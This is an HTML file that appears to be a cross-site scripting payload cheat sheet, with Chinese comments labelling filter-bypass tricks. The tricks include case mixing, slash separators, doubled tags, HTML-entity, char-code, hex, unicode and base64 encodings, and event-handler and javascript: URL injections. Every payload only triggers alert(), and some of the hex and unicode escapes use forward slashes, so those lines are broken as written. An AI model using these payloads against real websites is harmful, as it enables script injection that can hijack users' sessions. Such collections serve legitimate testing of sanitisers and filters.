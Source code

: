 ```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    width: ｅｘｐｒｅｓｓｉｏｎ(alert(1))
    <!--TODO:使用全角字符-->
    <style>@import 'javasc/ri/0pt:alert("xss")';</style>
</head>
<body>
<img src="x"><script>alert(1)</script></img>
<img src="invalid_image.png" onerror="alert(1)">
<img src="1" onerror="alert(1)">
<body onload=alert(1)>
<p onmouseover=alert(1)>test</p>
<a href="javascript:alert(1)">test</a>
<img src="1" onerror="javascript:alert(1)">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" ></object>
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

<!--TODO:变形,大小写-->
<iMg src="#" onerror="alert(1)"/>
<img src='#' onerror='alert(1)'/>
<img src=# onerror=alert(1) />

<!--TODO:左斜线代替空格,水平制表符,回车符-->
<Img/Src='#'/Onerror="alert(1)"/>
<a href="javascript:alert(1)">test</a>

<!--TODO:双写绕过-->
<!--<scr<scriptipt>alert(1)</scr</script>ipt>-->

<!--TODO:编码-->
<A hREf="j&#97;v&#x61;script:alert(1)">test</A>

<!--TODO:使用特殊字符编码-->
<A href="&#01;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">点击</A>

<!--TODO:使用html编码-->
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x2f;&#x78;&#x73;&#x73;&#x2f;&#x29;">点击</a>

<!--TODO:使用十进制 ascii 编码-->
<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,39,120,115,115,39,41))>

<!--TODO:使用十六进制 ascii 编码-->
<img src=x onerror=eval("/x61/x6c/x65/x72/x74/x28/x27/x78/x73/x73/x27/x29")>
<script>eval("/x61/x6c/x65/x72/x74/x28/x27/x78/x73/x73/x27/x29")</script>

<!--TODO:使用unicode编码-->
<img src=x onerror=eval("/u0061/u006c/u0065/u0072/u0074/u0028/u0027/u0078/u0073/u0073/u0027/u0029")>

<!--TODO:使用jsfuck,http://www.jsfuck.com/ zai'xain-->

</body>
</html>
```
